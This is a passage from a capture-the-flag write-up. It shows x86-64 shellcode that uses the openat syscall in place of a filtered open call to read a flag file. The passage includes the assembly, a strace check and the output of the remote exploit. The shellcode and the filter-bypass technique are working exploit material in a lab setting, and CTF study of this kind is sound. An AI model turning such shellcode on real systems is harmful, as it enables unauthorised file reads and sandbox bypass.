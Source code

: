 An alternative of the `open` syscall is to use `syscall` `257`, which is `openat`. This syscall opens a file relative to a directory file descriptor.

Unlike `open`, [openat](https://linux.die.net/man/2/openat) receives a directory file descriptor as the first argument, since it directs the kernel to open the file at a specific directory. All other arguments are shifted back by one register.

Modifying our shellcode, we simply need to set the first argument to `AT_FDCWD`, which is `0xffffff9c` in hex, to indicate that the path is relative to the current working directory.

```asm [solve.py]
custom_assembly="""
...
mov rbx, 0x000000007478742e ; .txt\x00
push rbx

mov rbx, 0x746e656d74726170 ; partment
push rbx

mov rbx, 0x6d6f632f7070612f ; /app/com
push rbx
mov rsi, rsp

mov rdi, 0xFFFFFF9C
mov rdx, 0 ; O_RDONLY flag
mov r10, 0 ; mode, ignored for O_RDONLY
mov rax, 257 ; syscall number for openat
syscall
...
"""
shellcode = asm(custom_assembly)
```

We can check if our shellcode works by putting the shellcode in a file called shellcode.s, compiling it into an ELF file, then using `strace` to the syscalls made.

```ansi [Terminal]
gcc -nostdlib -static shellcode.s -o shellcode-elf
strace ./shellcode-elf

execve("./shellcode-elf", ["./shellcode-elf"], 0x7ffe3d1e5d50 /* 64 vars */) = 0
openat(AT_FDCWD, "/app/compartment.txt", O_RDONLY) = 3
read(3, "ctf{flag}\n", 100)             = 10
write(1, "ctf{flag}\n", 10ctf{flag}
)             = 10
exit(0)                                 = ?
+++ exited with 0 +++
```

From the fact that the write seems to have written `ctf{flag}` out to the terminal, our shellcode works as intended.

Now, running the exploit in remote:

```ansi [Terminal]
[*] Switching to interactive mode

[*] Process './service' stopped with exit code 0 (pid 85879)
cuhk25ctf{Secr3t_C0mpu71ng_1n_S3cure_C0mpartm3n7}
```
